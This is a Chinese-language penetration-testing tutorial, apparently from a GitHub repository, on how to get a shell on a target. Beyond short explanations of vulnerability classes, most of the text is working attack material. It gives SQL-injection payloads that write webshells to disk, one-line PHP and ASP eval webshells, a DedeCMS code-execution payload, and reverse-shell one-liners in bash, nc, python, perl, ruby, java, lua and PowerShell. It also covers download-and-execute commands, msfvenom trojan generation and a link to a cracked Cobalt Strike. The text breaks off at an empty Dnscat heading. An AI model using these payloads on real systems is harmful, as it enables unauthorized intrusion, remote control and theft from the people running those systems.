


# 漏洞简述

## 0x01漏洞

​       漏洞是指硬件、软件或策略上的缺失，从而使攻击者能够在未授权的情况下访问系统。漏洞可能来自应用软件或操作系统设计时的缺陷或编码时产生的错误，也可能来自业务在交互处理过程中的设计或逻辑流程上的不合理之处。而平时所说的“bug”和漏洞并不能混为一谈，在概念上我们通常把这类能够引起软件做一些“超出设计范围的事情”的bug称为漏洞。基于这一概念，可以进行以下分类：

* 功能性逻辑缺陷（bug）：影响软件的正常功能，例如，执行结果错误、图标显示错误等；
* 安全性逻辑缺陷（漏洞）：通常情况下不影响软件的正常功能，但若被攻击者成功利用后，有可能引起软件去执行额外的恶意代码。常见的漏洞包括软件中的缓冲区溢出漏洞，网络中的跨站脚本漏洞（XSS）、SQL注入漏洞。
  

### 漏洞原理

1. **拒绝服务**

   任何对服务的干涉，使得其可用性降低或者失去可用性均称为拒绝服务。简单的理解就是，用户所需要的正常服务请求无法被系统处理。例如一个计算机系统崩溃或其带宽耗尽或其硬盘被填满，导致其不能提供正常的服务，就构成拒绝服务。

2. **缓冲区溢出**

    缓冲区溢出是指当计算机向缓冲区内填充数据位数时超过了缓冲区本身的容量，溢出的数据覆盖在合法数据上。而缓冲区溢出攻击是通过往程序的缓冲区写入超出其长度的内容，造成缓冲区的溢出，从而破坏程序的堆栈，使得程序转而执行其他指令。缓冲区溢出攻击的目的在于扰乱具有某些特权运行的程序的功能，这可以使得攻击者获得程序的控制权，如该程序具有足够权限，那么整个主机就被控制。在一般情况下，攻击者攻击root程序，然后执行类型“exec(sh)”的执行代码来获得root权限的shell。
   例如：1988爆发的Morris worm（莫里斯蠕虫）正是淋漓尽致地将“耗尽所有资源”在现实生活中表现出来。

3. **内存篡改**

   内存，又称为主存，是CPU能直接寻址的存储空间，由半导体器件制成。它用于暂时存放CPU中的运算数据，与硬盘等外部存储器交换的数据。内存篡改，顾名思义对内存中数据进行篡改，会产生重大影响，比如会使得重要数据丢失，也可能会使得内存一直占用，导致主机卡死，达到破坏的效果。

4. **设计缺陷**

    设计缺陷是指在产品最初设计时由于未考虑全面，而使产品在使用中存在的一些潜在缺陷。对于软件或程序而言，即为存在某种破坏正常运行能力的问题、错误，其存在会导致该产品在某种程度上不能满足用户需求，甚至可能引发更大的损失。
   例如web系统设计缺陷漏洞，其设计缺陷/逻辑漏洞可以引发修改数值、验证码的爆破、修改响应包、修改密码、服务端无有效行校验等后果；有某SDK设计缺陷导致手机敏感信息（如IMEI号和地理位置信息等）泄露；还有Intel处理器架构存在设计缺陷由此引发了两个漏洞("Meltdown"和"Specre")。按照发现者谷歌安全团队的说法，这个硬件的层面的漏洞几乎影响每个人，每台设备。攻击者可以绕过内存访问的安全隔离边界，在内核中读取操作系统和其他程序的内存数据，造成敏感信息泄露。

### 常见漏洞举例

1. SQL注入漏洞

   SQL注入就是把SQL命令插到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。此攻击能够通过SQL注入漏洞写入木马文件并获得shell，能够绕过账号、密码检查，能删除数据库的所有记录，也能够通过SQL注入攻击盗取密码等。

2. 跨站脚本(XSS)漏洞

   跨站脚本(XSS)是一种安全攻击，其中，攻击者在看上去来源可靠的链接中恶意嵌入代码。这里所说的安全攻击是指任何可能会危及机构的信息安全行为。跨站脚本攻击危害十分严重，此攻击能够调用shellcode，进而获得root权限，还可以窃取用户cookie，伪造用户身份登录、可控制用户浏览器、结合浏览器及其插件漏洞，下载病毒木马到浏览者的计算机、衍生URL跳转漏洞、蠕虫攻击，钓鱼欺骗等。

3. 弱口令漏洞

   弱口令通常被认为容易被别人（有可能对你很了解的人）猜测到或被破解工具破解的口令。在生活中简单密码十分常见，比如用生日、手机号等数字串作为密码。如果被攻击者破解弱口令，攻击者可以执行命令，甚至获取服务器shell，获取root权限。

4. Struts2远程命令漏洞

   ApacheStructs是一款建立于Java web应用程序的开放员代码架构，存在一个输入过滤错误，如果遇到转换错误可被利用注入和执行任意Java代码。网站存在远程代码执行漏洞大部分原因是由于网站采用Appscan Structs Xwork作为网站应用框架，由于该软件存在远程代码执行高危漏洞，导致网站面临安全风险。CNVD（国家信息安全漏洞共享平台）处理过诸多此类漏洞，例如：“GPS车载卫星定位系统”网站存在远程命令执行漏洞（CNVD-2012-13934）。攻击者可以通过远程命令注入执行，令系统执行恶意命令，导致被黑客入侵，从威胁服务器安全。

5. 文件上传漏洞

   文件上传攻击是指攻击者上传了一个可执行文件到服务器上，并执行。这种攻击方式是最直接有效的，上传的文件可以是病毒、木马、恶意脚本或者是webshell等。

## 0x02漏洞利用概述

> 找到目标上存在的漏洞之后，就可以利用漏洞渗透程序对目标系统进行测试。这个阶段中关注的重点是如何**绕过目标的安全机制**来控制目标系统或访问目标资源。如果在上一阶段中顺利完成任务，那么这个阶段可以准确顺利进行。这个阶段的渗透测试应该具有精准的范围。漏洞利用的主要目标是获取之前评估的重要资产。最后进行渗透时还应该考虑成功的概率和对目标可能造成破坏的最大影响。目前最为流行的漏洞渗透程序框架是Metasploit。通常这也是最为激动人心的时刻，因为渗透测试者可以针对目标系统使用对应的入侵模块获得权限控制。

# 获得shell

## 0x01知识铺垫

1. **shell反弹shell**


通俗来说，shell就是实现用户命令的接口，通过该接口我们能实现对计算机的控制(root权限)，而反弹shell就是将shell反弹给攻击者，从而达到让攻击者可以在自己的机器上执行shell命令，从而操控受害者的计算机。
反弹shell指控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

2. **shellcode**

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。本地运行的shellcode经常用于利用软件漏洞提升权限。比如在Linux下由普通权限提升至root权限。远程shellcode为利用软件漏洞获得特定的shellcode，再经由C或Python编写远程攻击程序，进而取得对方电脑的root权限。漏洞利用往往包含了shellcode。

3. **webshell**

以asp、php、jsp或者cgi网页文件形式存在的一种代码执行环境，可以将其称作为一种网页后门。可以大致分为大马，小马和一句话木马。

* 大马：体积大，功能齐全，能够对数据库、文件管理，对站点进行快速的信息收集，甚至能够提权
* 小马：若在上传文件的时候，会遇到被限制上传的文件大小或是被拦截的情况，那么此时可以通过小马来上传大马，实现相应的功能
* 一句话木马：短小精悍，功能强大，隐蔽性好，使用客户端可以快速管理webshell


## 0x02webshell反弹shell

由于webshell是非交互式shell，通常要反弹一个交互式的shell，然后进一步进行提权。
获取webshell的动作又称作getshell，可按照下列方式进行分类：

1. **注入getshell**

   * 一般前提条件
     * 已知网站物理路径
     * 已获得文件写入的权限

   * 步骤
     * 第一步：写shell
     * 第二步：执行命令反弹CS马
     * 第三步：后台SQL功能执行

   * 类型

     * MySQL

       ```sql
       select 0x3c3f70687020a6576616c28245f504f53545b615d293ba3f3e into outfile '/var/www/html/1.php'
       ```

     * SQLserver

       存储过程xp_cmdshell

       ```sql
       ;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > D:\\WWW\\2333.aspx' ;--
       ```

     * Oracle

       * 创建JAVA包

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
         ```

       * JAVA权限

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;
         ```

       

       * 创建函数

         ```sql
         select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
         ```

       * URL执行

         ```sql
         id=602'||utl_inadd.get_host_name((select LinxRUNCMD('cmd /c dir d:/') from dual))--
         ```

       * postgresql

         ```sql
         COPY (select '<?php phpinfo();?>') to '/tmp/1.php';
         ```

       * sqlite3

         ```sql
         ;attach database 'D:\\www\\008.php' as tt;
         create TABLE tt.exp (dataz text) ;
         insert INTO tt.exp (dataz) VALUES (x'3c3f70687020406576616c28245f504f53545b27636d64275d293b3f3e');
         ```

       * redis

         ```
         %0D%0Aconfig%20set%20dir%20%2Fvar%2Fwww%2Fhtml2F%0D%0Aconfig%20set%20dbfilename%20shell%2Ephp%0D%0Aset%20x%2022%3C%3Fphp%20phpinfo%28%29%3B%%203F%3E%22%0D%0Asave%0D%0A
         ```

2. **上传getshell**


可以通过前后台进行上传，但无论是通过前台上传还是通过后台(通过口令进入或XSS到后台、逻辑漏洞越权等)上传点，在某些情况下可能需要结合一些Web server的解析漏洞。上传漏洞能够直接getshell的漏洞，例如Joomla远程上传、Tomcat PUT上传，同时也有存在上传漏洞的编辑器可以getshell，例如FCK，Ewebeditor，UEditor。在这基础上，一般是由收集的信息反馈是否存在漏洞，再进一步达到利用的目的。而在这个过程中可能会涉及**逻辑绕过、WAF对抗、杀软绕过、执行层**，所要关注的有以下四点：

* 代码或逻辑存在问题，可以上传脚本文件；
* 躲过WAF对脚本文件以及对上传内容的校验；
* 解决落地杀;
* 执行过程中躲过流量监控或系统层监控

同时我们也可以考虑在上传插件情况将shell添加到安装的插件中上传服务器获得shell。

3. **RCE getshell**

   * **概念**

     RCE(*remote command/code execute*),即远程命令/代码执行漏洞，可以分为**远程命令执行ping**和**远程代码执行evel**。攻击者可以通过web界面直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统，这就是RCE漏洞。

   * **实例**

     Java系的OGNL表达式注入、EL注入、反序列化；

     PHP系列的eval类、伪协议类代码执行、system类命令执行等；

     例如在2021年12月10日爆发的高危log4j漏洞，对该漏洞利用复现如下漏洞利用实践部分。

4. **文件包含getwebshell**

   * **概念**

   文件包含，常见JSP、ASP、ASPx、PHP 都有包含。就**PHP的包含**而言，可以包含任意路径的任意后缀，能控制include类函数的输入结合系统特征性文件或者上传的文件结合，可以获取webshell。**JSP包含**，默认情况下动态包含WEB路径下的JSP文件（静态包含可以包含任意后缀的文本文件，但不支持变量动态赋值），可以留后门使用。**ASPx包含**，目录任意文件可以被包含，可以把内容当做ASPx代码执行，但不支持动态变量赋值，类似于JSP静态包含，也可以留后门使用。借助文件包含可躲避waf拦截获取webshell，一般用于上传大马。

   * **常见文件包含的函数**

     * PHP：include() 、include_once()、require()、require_once()、fopen()、readfile()

     * JSP/Servlet：java.io.file()、java.io.filereader()、静动态include

     * ASP：include file、include virtual

   * **格式**

     * jsp包含

       ```jsp
       <%@ include file="文件相对 url 地址" %>
       ```

     * asp包含

       ```asp
       <!--#include file="123.jpg"-->
       #调用的文件必须和被调用文件在同一目录，如果不在同一目录，用下面的语句：
       <!--#include  virtual="文件所在目录/123.jpg"-->
       ```

     * php包含

       ```php
       <?php
       include('123.jpg');
       ?>
       ```

     * 命令执行

       ```bash
       echo ^<^?php @eval($_POST['cmd']);?^>^ > c:\1.php
       ```

       ```bash
       ^<^%eval request("cracer")%^>^ > c:\1.php
       # 需要知道网站路径
       ```

5. **漏洞组合拳getshell**


在某些时候一个漏洞即可getshell，但是有时候需要各种漏洞进行组合成功获取shell。

* **XXE(+SSRF)**


XXE即XML外部实体注入攻击，最理想的状态就是直接可以代码执行（类似PHP expert）；大多数还是以文件读取信息收集为主，结合源码或者配置文件（例如/etc/shadow、tomcat-users.xml等）getshell；还可以通过XXE的SSRF(Server-Side Request For grey,服务器请求伪造)来getshell。 

* **SSRF+RCE**


原理上SSRF可以结合所有RCE（反序列化、s2、mysql等）的漏洞进行组合利用，只是在平常实践中用SSRF+redis未授权用的更多。

* **文件读取+源码+Vuls(基于Linux/FreeBSD的漏洞扫描程序)**


一般情况下是通过web.xml获取class文件，然后进行反编译，找到代码的漏洞，进而获取系统的权限。

* **弱口令+后台+上传**


通过对弱口令的破解，可以进入后台对多种漏洞进行利用，同时还具备备份还原、导入导出、模板编辑等功能。

* **XSS/CSRF+后台+上传**


可通过XSS获取到cookie，或者利用CSRF类漏洞获取后台权限，达到漏洞利用目的。

* **逻辑漏洞&越权+上传**


登录逻辑绕过、越权类，进入后台，到达漏洞利用目的。

* **系统层getcmdshell**

   * 暴力破解

   * 针对常规协议：SSH、Telnet、RDP、SMB、VPC、Redis等中间件类

   * 通过**数据库执行语句**获得系统shell，就获取权限而言，比SQL注入更为直接

   * 可尝试在**设备层**上进行突破，比如VPN、防火墙

   * 服务器解析漏洞

     * IIS5.x-6.x解析漏洞

       * 目录解析

         ```
         形式：www.xxx.com/xx.asp/xx.jpg
         ```

         原理: 服务器默认会把**.asp，.asa目录下的文件**都解析成asp文件。

       * 文件解析

         ```
         形式：www.xxx.com/xx.asp;.jpg
         ```

         原理：服务器**默认不解析<u>;号</u>**后面的内容，因此xx.asp;.jpg便被解析成asp文件了。

       * 解析文件类型

         IIS6.0 默认的可执行文件除了asp还包含以下三种 :

         ```
         /test.asa
         ```

         ```
         /test.cer
         ```

         ```
         /test.cdx
         ```

     * Apache解析漏洞

       ```
       形式：www.xxx.com/test.php.php123
       ```

       * 解析规则：**从右到左开始判断解析**,如果后缀名为不可识别文件解析,就再往左判断。

         例如： test.php.zip.rar “.zip”和”.rar” 这两种后缀是apache不可识别解析,apache就会把test.php.zip.rar解析成php文件。

       * 其余配置问题导致漏洞：

         ``` 
         如果在 Apache 的 conf 里有这样一行配置 AddHandler php5-script .php 这时只要文件名里包含.php 即使文件名是 test2.php.jpg 也会以 php 来执行。
         ```

         ```
         如果在 Apache 的 conf 里有这样一行配置 AddType application/x-httpd-php .jpg 即使扩展名是 jpg，一样能以 php 方式执行。
         ```

     * nginx解析漏洞

       漏洞形式：

       ```
       www.xxxx.com/UploadFiles/image/1.jpg/1.php
       www.xxxx.com/UploadFiles/image/1.jpg.php
       www.xxxx.com/UploadFiles/image/1.jpg/ \0.php
       ```

       解析规则：

       认以CGI的方式支持PHP解析的，普遍的做法是在Nginx配置文件中通过正则匹配设置SCRIPT_FILENAME。当访问www.xx.com/phpinfo.jpg/1.php这个URL时，$fastcgi_script_name会被设置为“phpinfo.jpg/1.php”，然后构造成SCRIPT_FILENAME传递给PHP CGI

     * IIS7.0/IIS7.5解析漏洞

       漏洞影响 IIS7 及IIS7.5 在使FastCGI方式调用php时，在php.ini里设置cgi.fix_pathinfo=1使得访问任意文件URL时，在URL后面添加“/x.php”等字符时，该文件被iis当php文件代码解析。

6. **钓鱼getcmdshell**

通过发送钓鱼邮件、捆绑的马，访问即加载方式、点击即执行类的马。在生活中这一类十分常见，通常会以邮件形式发送，这类攻击一般会**结合社工**，可信度大大加强。例如2016年3月19日希拉里竞选团队主席John Podesta收到一封伪装成Google的安全警告的钓鱼邮件，Podesta单击了邮件中的修改口令(change password)恶意链接，让攻击者能够非法或得邮箱密码从而得知邮箱内所有信息。

7. **cms后台getshell**

cms(内容管理系统)，可以将第三方信息来源，比如文本文件、HTML网页、Web服务、关系数据库等内容抓取，并经分析处理后放到自身的内容库中。对于此类例子，网上有大量的资料，例如比较知名的是DedeCMS V5.7 SP2后台存在代码执行漏洞，攻击者可以利用该漏洞在增加新的标签中上传木马，获取webshell。


* 首先需要搭建环境：使用phpstudy版本2016，PHP版本5.4.45，mysql版本5.5.53
   dedecms版本5.7 sp1 utf-8版，可以自行从官网下载，附上dedecms下载地址：
  DedeCMS V5.7 ：<http://www.dedecms.com/>
* 在本地服务器部署DedeCMS
* 访问Dedecms后台

该漏洞出现的原因主要是在install的index.php文件中
该段代码存在变量覆盖，表达的是依次对_GET,_POST,_COOKIE进行**键值分离**

~~~php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = RunMagicQuotes($_v);
}
~~~

文件包含，使用**require_once函数**包含了…/data/admin/config_update.php文件，在被包含的文件中定义了变量$updataHost

~~~php
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = UPDATEHOST."dedecms/demodata.{$s_lang}.txt";
	$sql_content = file_get_contents($rmurl);
	$fp = fopen(INSTALL_DEMO_NAME,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
~~~

远程文件包含，结合前面的变量覆盖就可以控制包含的内容

~~~php
//更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询

define('UPDATEHOST', 'http://updatenew.dedecms.com/base-v57/');
define('LINKHOST', 'http://flink.dedecms.com/server_url.php');
~~~

可以覆盖insLockfile变量

~~~php
if(file_exists(INSLOCKFILE))
{
    exit(" 程序已运行安装，如果你确定要重新安装，请先从FTP中删除 install/install_lock.txt！");
}
~~~

构造payload

~~~php
http://localhost/default/dede/tag_test_action.php?url=a&token=&partcode={dede:field%20name=%27source%27%20runphp=%27yes%27}system(whoami);{/dede:field}
~~~

准备一句话木马：新建一个.PHP文件，写入如下语句

~~~php
<?php @eval($_POST['cmd']); ?>
~~~

最后执行payload

感兴趣的小伙伴可以参考：<https://blog.csdn.net/caiqiiqi/article/details/83992719>

## 0x03命令反弹shell

### Linux反弹shell

在进行反弹之前，使用whereis命令可以确定目标支持的反弹方法。

```bash
whereis nc bash python php exec lua perl ruby
```

1. **bash反弹**

* **第一步**：攻击机运行nc监听端口：nc -lvvp [攻击机port]

nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP的方式侦听指定端口。
相关指令：

```bash
-l 监听模式，用于入站连接。
-v 详细输出--用两个-v可得到更详细的内容。
-p port 本地端口号。
```

* **第二步：**靶机运行命令：bash -i >& /dev/tcp/[攻击机ip（公网）]/[攻击机端口] 0>&1

  ```bash
  bash -i #代表在本地打开一个bash。
  ```

  ```bash
  >& /dev/tcp/ip/port #>&后跟这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程vps，vps即是虚拟专用服务器/公网主机
  ```

  ```bash
  /dev/tcp/ #Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接。
  ```


远程vps开启对应的端口去监听，就会接收到这个bash的标准输出和标准错误输出。
linux文件描述符：linux shell下有三种标准的文件描述符，分别如下:

```bash
0 - stdin 代表标准输入,使用<或<<
1 - stdout 代表标准输出,使用>或>>
2 - stderr 代表标准错误输出,使用2>或2>>
```

```bash
>&含义：
当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符
```

* **第三步**：攻击机成功连接上靶机的shell

2.**nc反弹**

**前提**

目标主机装了nc

**步骤**

* 第一步

  攻击机：

  ```bash
  nc -lnvp [port]
  ```

未加参数n时，使用nc监听端口反弹shell时都会有一个警告：[port]: inverse host lookup failed: Unknown host。根据nc帮助文档的提示加上-n参数即不产生这个警告，-n参数代表在建立连接之前不对主机进行dns解析。

* 第二步

  靶机：

  ```bash
  nc -e /bin/bash [攻击机ip] [port]
  ```


-e prog 程序重定向，一旦连接，就执行。-e后面跟的参数代表的是在创建连接后执行的程序，这里代表在连接到远程后可以在远程执行一个本地shell(/bin/bash)，也就是反弹一个shell给远程，可以看到远程已经成功反弹到了shell，并且可以执行命令。

3. **awk反弹**

AWK 是一种处理文本文件的语言,是一个强大的文本分析工具。

**步骤：**

* 第一步


攻击机:

```bash
nc -nvlp [port]
```

* 第二步


靶机：

```bash
awk 'BEGIN{s="/inet/tcp/0/[攻击者ip]/[port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

4. **telnet反弹**

要在攻击主机上分别监听两个端口，执行反弹shell命令后，在其中一个端口终端输入命令，另一个端口查看命令执行后的结果。

**步骤**

* 第一步


攻击机：

```bash
nc -nvlp [port1]    #监听输入命令端口
nc -nvlp [port2]    #监听输出命令端口
```

* 第二步


靶机：

```bash
telnet [攻击机ip] [port1] | /bin/bash | telnet [攻击机ip] [port2]
```

5. **socat反弹**

* 第一步

  攻击机：

  ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ```bash
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[攻击机ip]:[port]
  ```

6. **python反弹**

* 第一步

攻击机：

```bash
nc -nvlp [port]
```

* 第二步

靶机：

~~~bash
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.239.128',7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
~~~

首先使用socket与远程建立起连接，接下来使用到了os库的dup2方法将标准输入、标准输出、标准错误输出重定向到远程，dup2这个方法有两个参数，分别为文件描述符fd1和fd2，当fd2参数存在时，就关闭fd2，然后将fd1代表的那个文件强行复制给fd2，在这里可以把fd1和fd2看作是C语言里的指针，将fd1赋值给fd2，就相当于将fd2指向于s.fileno()，fileno()返回的是一个文件描述符，在这里也就是建立socket连接返回的文件描述符。于是这样就相当于将标准输入(0)、标准输出(1)、标准错误输出(2)重定向到远程(3)，接下来使用os的subprocess在本地开启一个子进程，传入参数“-i”使bash以交互模式启动，标准输入、标准输出、标准错误输出又被重定向到了远程，这样的话就可以在远程执行输入命令了。

7. **php反弹**

**前提**

php需要关闭safe_mode选项，才能使用php的exec函数执行反弹shell的命令。

**步骤**

* 第一步

  攻击机：

  ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ~~~bash
  php -r 'exec("/usr/bin/bash -i >& /dev/tcp/[攻击机ip]/[port] 0>&1");'
  有时变形为
  php -r '$sock=fsockopen("[攻击机ip]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
  ~~~
  
  8. **perl反弹**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从最初是为文本处理而开发的，现在用于各种任务，包括系统管理，Web开发，网络编程，GUI开发等。

* 第一步

  攻击机

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  perl -e 'use Socket;$i="ip"$p=port;
  socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ~~~
  
  9. **Ruby反弹**

Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。

* 第一步

  攻击机：

  ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ```bash
  ruby -rsocket -e'f=TCPSocket.open("[攻击机ip]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  ```
  
  10. **java反弹**
  
  * 第一步
  
    攻击机：
  
    ~~~bash
    nc -nvlp [port]
    ~~~
  
  * 第二步
  
    编写执行反弹shell命令的java恶意类，例如：
  
    ~~~java
    public class Revs {
        /**
        * @param args
        * @throws Exception 
        */
    public static void main(String[] args) throws Exception {
            // TODO Auto-generated method stub
            Runtime r = Runtime.getRuntime();
            String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process p = r.exec(cmd);
            p.waitFor();
        }
    }
    ~~~
  
  * 编译并执行恶意类，成功反弹shell
  
    ```bash
    javac Revs.java
    ```
  
    ~~~bash
    java Revs
    ~~~
  
  11. **Lua反弹**

Lua 是一个小巧的脚本语言。 其设计目的是为了嵌入应用程序中，从而为应用程序提供灵活的扩展和定制功能。Lua由标准C编写而成，几乎在所有操作系统和平台上都可以编译，运行。Lua并没有提供强大的库，这是由它的定位决定的。Lua 有一个同时进行的JIT项目，提供在特定平台上的即时编译功能。

**步骤**

* 第一步


攻击机：

~~~bash
nc -nvlp [port]
~~~

* 第二步


靶机：

~~~bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('[攻击机ip]','[port]');os.execute('/bin/sh -i <&3 >&3 2>&3');"
~~~

### Windows反弹shell

1. **nc反弹**


靶机需安装netcat工具，解压后的文件夹里面，按住shift键的同时，在文件夹的空白处鼠标右键打开一个命令窗口。

**步骤**

* 第一步

  攻击机：

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  nc [攻击机ip] [port] -e c:\windows\system32\cmd.exe
  ~~~

2. **powershell反弹**

powercat是netcat的powershell版本，powershell在Windows操作系统下，拥有的权限较高，功能免杀性（渗透中往往因为杀毒软件而渗透失败）都要比netcat好用的多。

**步骤**

* 第一步

  攻击机：

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c [攻击机ip] -p [port] -e cmd
  ~~~

  ~~~bash
  下载到目标机器本地后执行
  Import-Module ./powercat.ps1PS C:\WWW> powercat -c 192.168.99.242 -p 1234 -e cmd
  ~~~

3. **msf反弹**

攻击者在公网kali（公网ip），使用msf工具的 msfconsole进行监听[port]端口的木马反弹。

**步骤**

* 第一步


首先输入msfconsole打开软件然后输入show payloads查看有哪些payloads可以使用，找到所要使用的payload，找到后再前面加上use命令使用。

例如：

~~~bash
use windows/x64/meterpreter_reverse_tcp
~~~

或者直接使用msfvenom查找payload命令

例如：

~~~bash
msfvenom -l payloads | grep 'windows/x64/meterpreter_reverse_tcp'
~~~

查找后，可使用show option查看使用方法，查看后可依据方法使用，生成木马文件

例如：

~~~bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[攻击机ip] LPORT=[port] -f exe -o xxx.exe
~~~

* 第二步


将第一步生成的木马文件放置到靶机中。

* 第三步


攻击机中，再次打开msfconsole依次输入：

~~~bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost [攻击机ip]
exploit
~~~

* 第四步


执行exe文件。

* 第五步


攻击机监听到连接后，可以输入？查看获得反弹shell后的用法，比如输入screenshot就截到了靶机的桌面。

4. **Cobalt strike反弹**

CobaltStrike是一款渗透测试神器,被业界人称为CS神器。CobaltStrike分为客户端与服务端,服务端是一个,客户端可以有多个,可被团队进行分布式协团操作。CobaltStrike不能在win7运行，对Windows版本有较高的要求。

下载Cobalt Strike破解版本地址(3.12版本)：<https://pan.baidu.com/s/1n6h2w5j0TCx9GnnC5Z7gZg>   提取码：1sxu 

**步骤**

* 第一步


配置cobaltstrike服务端跟客户端。

* 第二步


在团体服务器上执行命令，以运行服务器端。

~~~
./teamServer [服务器ip地址] [服务器密码]
~~~

* 第三步


客户端：

~~~
Windows：双击打开cobaltstrike.jar
~~~

~~~
linux：./cobaltstrike
~~~

* 第四步


客户端配置监听器：



* 第五步


客户端生成payload：



* 第六步


靶机执行相应的powershell payload。

5. **Empire反弹**

Empire是一款针对Windows平台的，使用powershell脚本作为攻击载荷的渗透攻击框架代码，具有从stager生成，提权到渗透维持的一系列功能，无需powershell.exe就可以使用powershell 的代理功能，还可以快速在后期部署漏洞利用模块，内置模块有键盘记录等，可以躲避网络检测和大部分安全防护工具，是一个基于powershell 的远控木马。

* 项目地址：<https://github.com/EmpireProject/Empire>

* 可使用如下命令利用git克隆项目安装

  ~~~bash
  git clone https://github.com/EmpireProject/Empire
  ~~~

在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时,可以执行Empire的Payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

**步骤**

* 第一步


靶机使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

~~~bash
set Lhost [攻击机ip]
set Lport [port]
~~~

* 第二步


攻击机利用msf，设置监听，命令如下：

~~~bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost [攻击机ip]
set lport [port]
run
~~~

运行后，就可以收到Empire反弹回来的Shell。

6. **nishang反弹**

nishang时基于powershell的渗透测试工具，需要powershell的版本达到3.0及以上。推荐win10版本电脑或windowsserver2008以上版本服务器。
nishang框架下载地址：<https://github.com/samratashok/nishang>
由于win10自带杀毒，下载时需要关闭实时防护

**步骤**

* 第一步


攻击机：

~~~bash
Inc -nvlp [port]
~~~

* 第二步


靶机powershell里执行：

~~~bash
Invoke-PowerShellTcp -Reverse -IPAddress [攻击机ip]  -Port [port]
~~~

7. **Dnscat反弹**

